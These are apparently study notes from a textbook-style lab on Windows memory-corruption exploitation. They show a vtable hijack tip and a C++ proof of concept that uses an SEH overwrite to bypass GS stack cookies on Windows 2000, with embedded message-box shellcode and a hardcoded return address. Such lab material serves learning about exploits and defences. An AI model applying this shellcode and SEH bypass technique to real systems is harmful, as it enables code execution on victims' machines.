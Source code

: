 - Override the C++ virtual table pointer to make it point to the springboard, and if you need to balance the stack, look for an instruction in the system dynamic link library as a springboard to jump into the shellcode.
- If the return address is a garbage instruction, make it not affect the execution of shellcode as much as possible, here `0x817C` is a `cmp` instruction, then this assembly instruction try to make it not occur data access exception
- This shellcode will pop up a window

## Using SEH to break GS

> GS does not protect SEH, so you can overwrite SEH to achieve hijacking

### Code

```cpp
#include<stdafx.h>
#include<string.h>

char shellcode[] =
"\xFC\x68\x6A\x0A\x38\x1E\x68\x63\x89\xD1\x4F\x68\x32\x74\x91\x0C" "\x8B\xF4\x8D\x7E\xF4\x33\xDB\xB7\x04\x2B\xE3\x66\xBB\x33\x32\x53" "\x68\x75\x73\x65\x72\x54\x33\xD2\x64\x8B\x5A\x30\x8B\x4B\x0C\x8B" "\x49\x1C\x8B\x09\x8B\x69\x08\xAD\x3D\x6A\x0A\x38\x1E\x75\x05\x95" "\xFF\x57\xF8\x95\x60\x8B\x45\x3C\x8B\x4C\x05\x78\x03\xCD\x8B\x59" "\x20\x03\xDD\x33\xFF\x47\x8B\x34\xBB\x03\xF5\x99\x0F\xBE\x06\x3A" "\xC4\x74\x08\xC1\xCA\x07\x03\xD0\x46\xEB\xF1\x3B\x54\x24\x1C\x75" "\xE4\x8B\x59\x24\x03\xDD\x66\x8B\x3C\x7B\x8B\x59\x1C\x03\xDD\x03" "\x2C\xBB\x95\x5F\xAB\x57\x61\x3D\x6A\x0A\x38\x1E\x75\xA9\x33\xDB" "\x53\x68\x77\x65\x73\x74\x68\x66\x61\x69\x6C\x8B\xC4\x53\x50\x50" "\x53\xFF\x57\xFC\x53\xFF\x57\xF8\x90\x90\x90\x90\x90\x90\x90\x90"
"......"
"\x90\x90\x90\x90"
"\xA0\xFE\x12\x00"//address of shellcode;

void test(char * input)
{
  char buf[200];
  strcpy(buf,input);
  strcat(buf,input);
}

void main()
{
  test(shellcode);
}
```

### Description

> There is a stack overflow vulnerability in the function test, the variable input will be overwritten after strcpy, and strcat will get an illegal address, the function ah will go to the SEH processing process, we can hijack the system process before `security_cookie` check

- Note: The test environment is `Windows 2000 SP4`, the compiled version is `Release` version, the compiler is `Visual Studio 2005`, and the compilation option is `Disable compilation optimization/0d`.
- The reason for using `Windows 2000` is to prevent the effect of `SafeSEH`.
- To be completed: Page:277
